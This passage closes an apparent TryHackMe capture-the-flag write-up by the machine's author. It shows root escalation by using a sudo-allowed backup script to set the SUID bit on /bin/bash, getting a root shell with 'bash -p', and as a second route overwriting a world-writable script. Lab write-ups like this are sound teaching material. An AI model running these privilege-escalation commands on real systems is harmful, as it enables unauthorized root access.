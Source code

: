 And we can see its being ran as root! from here we can simply read the root flag if we wanted. But we havent compromised the system yet :( Lets get a shell!

We can do this by giving `/bin/bash`  the SUID bit

```bash
sudo /etc/mp3backups/backup.sh -c "chmod +s /bin/bash"
```

Then we can run `bash -p` in the command line and we get a root shell!!!

```bash
alex@ubuntu:/etc/mp3backups$ bash -p
bash-4.3# whoami
root
bash-4.3# cat /root/root.txt
flag{***************FLAG***************}
```

Now this was the intended method

The unintended is by changing the permissions of the file to be writeable and then appending your own things.

```bash
Chmod 777 /etc/mp3backups/backup.sh
```

```bash
echo "chmod +s /bin/bash" > /etc/mp3backups/backup.sh
./backup.sh
bash -p
```

This also gives you a root shell. This can be owned by simply reading the root flag, or even getting a reverse shell if you want to. They both work.

Thanks for reading I hope you enjoyed my writeup. I had so much fun making this machine for the tryhackme `communnity` and I hope you enjoyed playing.

If you would like to support me you can buymeacoffee at the bottom right of your screen Or drop me a follow at my twitter [https://twitter.com/fieldraccoon](https://twitter.com/fieldraccoon).

Thanks again. Fieldraccoon
